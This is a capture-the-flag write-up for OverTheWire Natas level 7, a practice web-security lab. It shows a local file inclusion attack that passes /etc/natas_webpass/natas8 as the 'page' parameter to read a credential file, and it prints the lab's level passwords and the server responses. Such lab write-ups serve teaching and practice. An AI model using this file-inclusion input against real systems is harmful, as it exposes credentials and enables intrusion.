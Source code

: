 # NATAS LEVEL 7

```
http://overthewire.org/wargames/natas/natas7.html
```

```
Username: natas7
Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
URL:      http://natas7.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

Peak at the page source yields a clue in the comment..

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas7", "pass": "7z3hEENjQtflzgnT29q7wAvMNfZdh0i9" };</script></head>
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```

On the main page, when we click on the "Home" link and the "About" link it redirects to
the following URLs respectively..

```
http://natas7.natas.labs.overthewire.org/index.php?page=home
http://natas7.natas.labs.overthewire.org/index.php?page=about
```

If we give the garbage parameter `foobar` to `index.php`, we get an informative error
message..

```
http://natas7.natas.labs.overthewire.org/index.php?page=foobar

Warning: include(foobar): failed to open stream: No such file or directory in /var/www/natas/natas7/index.php on line 21

Warning: include(): Failed opening 'foobar' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/natas/natas7/index.php on line 21
```

We see that it tries to open the file `foobar` from the file `/var/www/natas/natas7/index.php`.
So let's give `index.php` the parameter of the password file `/etc/natas_webpass/natas8`.

```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas7", "pass": "7z3hEENjQtflzgnT29q7wAvMNfZdh0i9" };</script></head>
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```
